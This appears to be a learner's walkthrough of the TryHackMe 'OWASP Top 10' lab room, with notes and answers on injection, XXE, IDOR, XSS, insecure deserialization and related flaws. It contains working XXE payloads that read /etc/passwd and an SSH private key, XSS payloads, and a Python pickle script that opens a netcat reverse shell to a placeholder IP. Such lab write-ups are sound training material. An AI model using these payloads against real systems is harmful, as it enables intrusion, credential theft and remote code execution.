




OWASP Top 10

# TRYHACKME: OWASP TOP 10 

- skipped documenting here first parts. they just pertain to an intro on the room and owasp top 10
- details below on each of the top vulnerabilities listed in it and the tasks associated to the room

# Task 3 [Severity 1] Injection
- explains what injecton is. 
- basically when user control input is interpreted as actual commands/parameters by the application.
- example: sql injection, command injection
- allows attacker to access, modify and delete info when passed to queries or it could allow them to execute system commands that would help them gain access to the system carrying out other kinds of attacks on the infrastructure or stealing data.
- to defend against it: 
	- an allow list to filter acceptable input or else they won't be processed
	- stripping input: removing dangerous characters before processing
	- there are ibraries that automate this for you

# Task 4 [Severity 1] OS Command Injection
- when server side code makes a system call on the hosting machine.
- sometimes commands not malicious e.g. whoami but could potentially be much worse e.g. reverse shell


# Task 5 [Severity 1] Command Injection Practical
- blind command injection: doesnt' get returned in the html
- active command injeciton:made visible thru html elements
- command injection can be detected when you can see the output from the system call

	
## Tasks:
1. What strange text file is in the website root directory?
- type `ls`  to list files.
- only 1 text file listed


2. How many non-root/non-service/non-daemon users are there?
- the `login.defs` defines the default minimum and maximum uid numbers assigned to users if they are not selected manually for them.
- we grep for the `UID_MIN` and `UID_MAX` values
```grep -E '^UID_MIN|^UID_MAX' /etc/login.defs```

- we can run `getent` to check for the users with uids between these values.
``` getent passwd {1000,6000} ```
- the command did not output anything so the answer is 0.
- you can also manually check `/etc/passwd` for a user that sticks out. it may be harder to do if we have more users.


3. What user is this app running as?
- run `whoami` command


4. What is the user's shell set as?
- read user's entry in /etc/passwd
```grep 'www-data' /etc/passwd```


5. What version of Ubuntu is running?
- run the following command:

``` lsb_release -a ```


- info can also be found in /etc/lsb-release and /etc/issue

``` cat /etc/lsb-release ```


``` cat /etc/issue ```


6. Print out the MOTD.  What favorite beverage is shown?
- motd is stored in /etc/update-motd.d/00-header
- if you google around there are different versions of linux that have different locations for motd. better locate/find motd first to make sure. 
- at the bottom you'll see DR. PEPPER being mentioned.
``` cat /etc/update-motd.d/00-header ```


# Task 6 [Severity 2] Broken Authentication
- authentication and session management verifies users before giving them access to web applications. broken authentication would therefore allow access for attackers.
- common flaws: 
	- brute force attacks using multiple authentication attempts
	-  weak credentials that have easily guessable passwords that don't even need brute force attacks
	-  weak session cookies that contain predictable values where an attacker can set their own session cookie and access accounts
- can be mitigated by:
	- strong password policy
	- automatic lockout for attempts
	- MFA

# Task 7 [Severity 2] Broken Authentication Practical
- usually also connected to sql injection when user/password inputs aren't sanitized
- common developer mistake: re-registration of an existing user


## Tasks
- register as 'darren'. you'll find that he is already registered.
- register as ' darren'. you'll login into darren's account.
7. What is the flag that you found in darren's account?


8. Now try to do the same trick and see if you can login as arthur.


9. What is the flag that you found in arthur's account?


# Task 8 [Severity 3] Sensitive Data Exposure (Introduction)
- when a web app accidentally divulges sensitive info e.g. PII or credentials
- MITM at s higher level
- can be inherent in the web server itself


# Task 9 [Severity 3] Sensitive Data Exposure (Supporting Material 1)
- data is stored mostly in a database that has a dedicated server or could also be a flat-file database (commonly used for small web apps)
- if a flat-file database is accessible to a user connecting to the web, then there is sensitive data exposure
- common flat-file database is *sqlite*
- to access a *sqlite* database:
``` sqlite3 <DATABASE_NAME> ```
- to list tables we use `.tables` command
- to describe/show info on a table we use:
``` PRAGMA table_info(TABLE_NAME)```
- use regular sql queries to select info.
- in the example, the table contains customer id, customer name, credit card number and password (hashed).

# Task 10 [Severity 3] Sensitive Data Exposure (Supporting Material 2)
- you can use password cracking tools that come with kali
- there are also cracking tools online : Crackstation


# Task 11 [Severity 3] Sensitive Data Exposure (Challenge)

- Have a look around the webapp. The developer has left themselves a note indicating that there is sensitive data in a specific directory. 

## Tasks
10. What is the name of the mentioned directory?
- visit the login page

- inspect page source to view html and you'll see there is a comment: "Must remember to do something better than store it in /assets"

11. Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data?
- append the directory in the address bar
- we see a database file 'webapp.db'

12. Use the supporting material to access the sensitive data. What is the password hash of the admin user?
- download the database by clicking it
- go to your terminal to access it
- we enter using `sqlite3` command and run `.tables`.
- we see that there are two tables: users and sessions. - for the exercise, we are more interested in the list of users. we run `PRAGMA table_info(users);` and run `select * from users;`
- there are 3 users listed: admin, Bob and Alice.
- password hash is the third column from the left.


13. Crack the hash.
	What is the admin's plaintext password?
- using crackstation it is revealed that the password is 'qwertyuiop'

14. Login as the admin. What is the flag?
- go back to website and use credentials.


# Task 12 [Severity 4] XML External Entity
- XML External Entity (XXE) attack takes advantage of XML parsers/data to interact with backend/external systems
- it can also cause DOS and Server Side Request Forgery (SSRF) -> inducing web app to make requests to other applications, may also enable port scanning and remote code execution.
- 2 types: in-band (attacker can recieve response to an XXE payload) and out-band (no immediate response, output reflected to some other file/their own server)

# Task 13 [Severity 4 XML External Entity - eXtensible Markup Language
- **What is XML?** a markup language that defines a set of rules for encoding documents, for storing and transporting data. it is both machine and human readable.
- **Why use XML?** 
	- platform and programming language independent
	- data stored and transported can be changed anytime w/o affecting data presentation
	- allows validation using DTD and Schema making sure there are no syntax errors
	- doesn't require nay conversion when transferring between systems
- **Syntax**
	- starts w/ XML Prolog containing xml version and encoding used. not required but good practice to include.
	```<?xml version="1.0" encoding="UTF-8"?>```
	- must contain a root element. no root element=wrong/invalid xml doc. root in xml below is `<mail>`
	```
	<?xml version="1.0" encoding="UTF-8"?>
	<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
   </mail>
	```
	- XML is case-sensitive.
	- like html, can use attributes
``` <text category = "message">You need to learn about XXE</text> ```

## Tasks
15. Full form of XML
- Extended Markup Language
16. Is it compulsory to have XML prolog in XML documents?
- no
17. Can we validate XML documents against a schema?
- yes
18. How can we specify XML version and encoding in XML document?
- XML prolog

# Task 14  [Severity 4] XML External Entity - DTD
- DTD= Document Type Definition
- defines the structure and legal elements and attributes of an XML documents
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)> 
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)> 
<!ELEMENT body (#PCDATA)> ]>
```

- `!DOCTYPE` defines root element
- `!ELEMENT` defines elements it must contain
- `#PCDATA` means parseaable character data, describe type an element is supposed to be

## Tasks
19. How do you define a new ELEMENT?
- !ELEMENT
21. How do you define a ROOT element?
- !DOCTYPE
23. How do you define a new ENTITY?
- !ENTITY
- note: this wasn't dicussed, a little research will show you that entities are a way of representing data in the xml doc and we can deifne custom entities using the dtd, which can sometimes hold external values and makes uses of the `SYSTEM` keyword.
```<!ENTITY sampleentity "entity value" ```
``` <!ENTITY sampleentity SYSTEM "http://website.com" ```
``` <!ENTITY sampleentity SYSTEM "file:///path/to/file" ```

# Task 15  [Severity 4] XML External Entity - XXE Payload
- we can use xml to assign a value to an entity, to display a name
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
- we can use it to read some file from the system
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Tasks
24. Try the payload mentioned in description on the website.


# Task 16 [Severity 4] XML External Entity - Exploiting

25. Try to display your own name using any payload.


26. See if you can read the /etc/passwd.
```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///etc/passwd"> ]>
 <root>
&read;
 </root>
```


27. What is the name of the user in /etc/passwd
- at the end of the list you'll see user with uid 1000.
- user: falcon

28. Where is falcon's SSH key located?
- the ssh key is usually located in the .ssh directory under the user's home directory
`/home/falcon/.ssh/id_rsa`

29. What are the first 18 characters for falcon's private key?
- we change the filepath in the payload from before to the filepath for the ssh private key.
- we get the first 18 characters from the key displayed.
```
<!DOCTYPE root [<!ENTITY read SYSTEM "file:///home/falcon/.ssh/id_rsa"> ]>
 <root>
&read;
 </root>>
```


`MIIEogIBAAKCAQEA7b`


# Task 17 [Severity 5] Broken Access Control

- broken access control scenarios:
	- use unverified data in a sql call accessing info that is not that of the user
	- force browse to target url
- bypass authorization to gain access to protected pages, view sensitive data, perform tasks of higher privileges


# Task 18 [Severity 5] Broken Access Control (IDOR Challenge)
- IDOR = Insecure direct object reference
- exploit a misconfiguration to access restricted pages

## Tasks
30. Read and understand how IDOR works.
- okay

31. Deploy the machine and go to machine ip - Login with the username being noot and the password test1234.
- okay
- it leads to page with note=1


32. Look at other users notes. What is the flag?
-try note=0.


# Task 19 [Severity 6] Security Misconfiguration

- security could have been configured but not
- poorly configured permissions
- unnecessary features enabled, services, pages, accounts or privileges
- default accounts, unchanged passwords
- overly detailed error message
- not using http security headers


## Tasks
33. Deploy the VM
- okay

34. Hack into the webapp, and find the flag!
- tried looking through the html: nothing
- source code often put in code repositories, searched for the app in google and found a github page for it
- the default credentials is posted there
- using the default credentials, we login into the app and find the flag.


# Task 20 [Severity 7] Cross-site Scripting
- A type of injection where malicious scripts are executed in the victim's machine
- 3 main types:
	- stored xss: script originates from website's database when website allows input that is not sanitized.
	- reflected xss: part of user's request when user is tricked into executing the payload
	- dom-based xss - changing the document structure
- Common XSS Payloads:
	- popup
	- writing html
	- xss keyloggers
	- port scanning
	- source:xss-payloads.com
## Tasks
34. Navigate to ip address in your browser and click on the "Reflected XSS" tab on the navbar; craft a reflected XSS payload that will cause a popup saying "Hello".
	- put popup alert script as payload and flag will appear
	```
	<script> alert("Hello")
	</script>
	```
	

35. On the same reflective page, craft a reflected XSS payload that will cause a popup with your machines IP address.
	- put popup alert script as payload and flag will appear. use window.location.hostname
	```
	<script> alert(window.location.hostname)
	</script>
	```

36. Now navigate to ip in your browser and click on the "Stored XSS" tab on the navbar; make an account. Then add a comment and see if you can insert some of your own HTML.
	- created user1 and commented hello with html bold tags


37. On the same page, create an alert popup box appear on the page with your document cookies.


38. Change "XSS Playground" to "I am a hacker" by adding a comment and using Javascript. 
```
<script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script>
```


# Task 21 [Severity 8] Insecure Deserialization

- replacing data processed by an application
with malicious code
- ranked 8th because of low exploitability and dependent on attacker's skills
- vulnerable applications: those that don't have validation or integrity checks
	- e-commerce sites
	- forums
	- APIs
	- Application runtimes (Tomcat, Jenkins, Jboss etc.)

## Tasks
- who developed the tomcat application?
	- The Apache Software foundation
- What type of attack that crashes services can be performed with insecure deserialization?
	- Denial of Service

# Task 22 [Severity 8] Insecure Deserialization - Objects
 - made up of two things:
	 - state
	 - behaviour
- allows you to create similar lines of code and not having to write the same lines again and again


## Tasks
39. Select the correct term of the following statement:


if a dog was sleeping, would this be:

A) A State
B) A Behaviour 

# Task 23 [Severity 8] Insecure Deserialization - Deserialization
- serialization is the process of converting objects used in programming to simpler, compatible formatting for transmitting between systems or networks
- deserialization is converting serialized info into their complex form, the form the application understands

## Tasks
40. What is the name of the base-2 formatting that data is sent across a network as? 
- binary


# Task 24 [Severity 8] Insecure Deserialization - Cookies
- cookies store user-specific behaviours
- cookies are not permanent, have expiry timer
- additional attributes:
	- cookie name
	- cookie value
	- secure only
	- expiry
	- path
- can be set in different programming languages

## Tasks

41. If a cookie had the path of webapp.com/login , what would the URL that the user has to visit be?
 - webapp.com/login
42. What is the acronym for the web technology that Secure cookies work over?
- https

# Task 25 [Severity 8] Insecure Deserialization - Cookies Practical

- Follow instructions to register user and view cookie details.


## Tasks
43. 1st flag (cookie value)
- cookie value is in base 64 
- decode to get flag


44. 2nd flag (admin dashboard)
- change userType in Storage to admin and go to page admin.


# Task 26 [Severity 8] Insecure Deserialization - Code Execution

## Tasks
45.
- run script to get payload
```
import pickle
import sys
import base64

command = 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat YOUR_TRYHACKME_VPN_IP 4444 > /tmp/f'

class rce(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

print(base64.b64encode(pickle.dumps(rce())))
```
- run nc -lvnp 4444
- replace cookie encodedpayload
- get reverse shell and navigate to home directory to get flag



# Task 27 [Severity 9] Components With Known Vulnerabilities - Intro
- use exploit-db to search for an exploit that has already been made
- rated 3 on the prevalence scale -easy to miss an update on application


# Task 28  [Severity 9] Components With Known Vulnerabilities - Exploit

- some more details about using exploits
- they could have bugs

# Task 29  [Severity 9] Components With Known Vulnerabilities - Lab
- website is CSE Bookstore

- keyword 'book' platform 'php verified

- we use first script 

## Tasks
46. How many characters are in /etc/passwd (use wc -c /etc/passwd to get the answer)

- we run the script and payload is generated
through a link which will launch a shell


# Task 30  [Severity 10] Insufficient Logging and Monitoring

- logging is important because it can trace an attacker's actions, determine the risk and impact.
	- impact:
		- regulatory damage: leaked pii, get penalized by law/regulations
		- risk of future attacks
- **logging should include:**
	- **http status codes**
	- **time stamps**
	- **usernames**
	- **api endpoints/page locations**
	- **ip addresses**
- store logs securely and have backups
- have monitoring in place to detect suspicious activity
- suspicious activity:
	- multiple unauthorized attempts for a part
	- icular action
	- requests from anomalous IP adddreses (can be false positive)
	- use of automated tools: detected through user-agent headers and speed of requests
	- common payloads:
		- detecting xss
- activity must be RATED
- higher impact actions need to be responded to sooner

## Tasks
- download text
- file
```
200 OK           12.55.22.88 jr22          2019-03-18T09:21:17 /login
200 OK           14.56.23.11 rand99        2019-03-18T10:19:22 /login
200 OK           17.33.10.38 afer11        2019-03-18T11:11:44 /login
200 OK           99.12.44.20 rad4          2019-03-18T11:55:51 /login
200 OK           67.34.22.10 bff1          2019-03-18T13:08:59 /login
200 OK           34.55.11.14 hax0r         2019-03-21T16:08:15 /login
401 Unauthorised 49.99.13.16 admin         2019-03-21T21:08:15 /login
401 Unauthorised 49.99.13.16 administrator 2019-03-21T21:08:20 /login
401 Unauthorised 49.99.13.16 anonymous     2019-03-21T21:08:25 /login
401 Unauthorised 49.99.13.16 root          2019-03-21T21:08:30 /login 
```
47. What IP address is the attacker using?
- see logs for unauthorized attempts of logging in for users with higher privileges
```
401 Unauthorised 49.99.13.16 admin         2019-03-21T21:08:15 /login
401 Unauthorised 49.99.13.16 administrator 2019-03-21T21:08:20 /login
401 Unauthorised 49.99.13.16 anonymous     2019-03-21T21:08:25 /login
401 Unauthorised 49.99.13.16 root          2019-03-21T21:08:30 /login 
```
- ip is **49.99.13.16**
48. What kind of attack is being carried out?
- attacker is just trying different credentials via **brute force**

-----


# Task 31  What Next?

Done.
yay.